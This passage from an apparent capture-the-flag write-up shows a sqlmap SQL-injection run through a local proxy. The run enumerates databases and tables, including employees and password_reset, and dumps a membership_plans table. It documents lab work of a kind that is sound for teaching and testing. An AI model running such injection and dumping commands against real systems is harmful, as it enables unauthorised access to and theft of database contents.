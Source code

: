 
Replacing `--dbs` with `--tables`, it’ll dump all the tables:

    
    
    oxdf@parrot$ sqlmap -u http://127.0.0.1:5000/?params=1 --timeout 1 --ignore-timeouts --technique=U -p params --batch --tables                                                              ...[snip]...
    [20:18:57] [INFO] fetching database names
    [20:18:57] [INFO] fetching tables for databases: 'crossfit, employees, information_schema'
    Database: information_schema
    [80 tables]
    +---------------------------------------+
    | ALL_PLUGINS                           |
    | APPLICABLE_ROLES                      |
    ...[snip]...
    | user_variables                        |
    +---------------------------------------+
    
    Database: crossfit
    [1 table]
    +---------------------------------------+
    | membership_plans                      |
    +---------------------------------------+
    
    Database: employees
    [2 tables]
    +---------------------------------------+
    | employees                             |
    | password_reset                        |
    +---------------------------------------+
    

### SQLi Enumeration

#### Tables

With two methods to enumerate the database, I’ll look around at what’s there.
The `membership_plans` table has the plans I found earlier (`-D crossfit -T
membership_plans --dump`):

    
    
    Database: crossfit
    Table: membership_plans
    [4 entries]
    +----+----------+-----------+------------+---------------+
    | id | name     | available | base_price | current_price |
    +----+----------+-----------+------------+---------------+
    | 1  | 1-month  | 1         | 99.99      | 99.99         |
    | 2  | 3-months | 1         | 129.99     | 129.99        |
    | 3  | 6-months | 0         | 209.99     | 189.99        |
    | 4  | 1-year   | 1         | 899.99     | 859.99        |
    +----+----------+-----------+------------+---------------+
    